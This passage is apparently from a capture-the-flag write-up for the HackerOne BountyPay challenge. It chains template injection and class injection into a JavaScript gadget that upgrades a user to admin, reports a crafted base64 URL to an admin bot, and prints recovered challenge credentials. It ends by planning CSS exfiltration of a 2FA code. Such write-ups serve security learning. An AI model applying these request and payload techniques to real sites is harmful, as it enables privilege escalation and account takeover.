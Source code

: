 Observation - 4:
```js
    let t = $('input[name="username"]').val();
    $.get("/admin/upgrade?username=" + t, function() {
        alert("User Upgraded to Admin")
    })
```
It is taking the **username** from `input[name="username"]`, we need to find that type of gadget in html.
after checking all **templates** , **login template had that gadget**, weirdly there is no check for opening of login template even after loggedin.
we need to **fill the username** field with our disired value only with url, tried with get params https://staff.bountypay.h1ctf.com/?template=login&username=nice , Worked : )

Observation - 5:
But the **login template** didn't have **class injection**, we need both **login, ticket template** to make this happen.
As the template is based on get param, tried giving of multiple templates as array . Worked : )

Finally: 
By combining all
Change the avatar value to `tab4 upgradeToAdmin`
```
POST /?template=home HTTP/1.1
Host: staff.bountypay.h1ctf.com
Cookie: token=c0lsdUV....

profile_name=sandra&profile_avatar=tab4 upgradeToAdmin
```
Open : https://staff.bountypay.h1ctf.com/?template[]=login&username=sandra&template[]=ticket&ticket_id=3582#tab4
Observer the traffic, it automatically sends the upgrade to admin request . Now time to report it to admin.
```
$ echo -n "/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab4" | base64
Lz90ZW1wbGF0ZVtdPWxvZ2luJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uJnRlbXBsYXRlW109dGlj
a2V0JnRpY2tldF9pZD0zNTgyI3RhYjQ=
```
Visit the URL : https://staff.bountypay.h1ctf.com/admin/report?url=Lz90ZW1wbGF0ZVtdPWxvZ2luJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyI3RhYjQ=

It gives the new admin tab to the dashbaord.
{F859704}
Which contains passwords of bounty pay accounts. now we got the username and password of hackerone's bountypay account.
```
Username: marten.mickos
Password : h&H5wy2Lggj*kKn4OD&Ype
```

# Level - 6 ::
 Now we can login to hackerone's bounty pay account using those creds on **app.bountypay.h1ctf.com**, using 2FA bypass trich , that we did on level -1
Load the **transaction of May 2020**, we need to **pay them** in order to **finish the challellege**.
Payment : https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
To pay there is an send challenge option. Which sends code to 2FA app. that request also takes `app_style=https%3A%2F%2Fwww.bountypay.h1ctf.com%2Fcss%2Funi_2fa_style.css`
By changing the value, we can load **our style** for that 2FA code. Now our aim is to leak the **7 digit 2FA** code using **CSS exfilteration**.
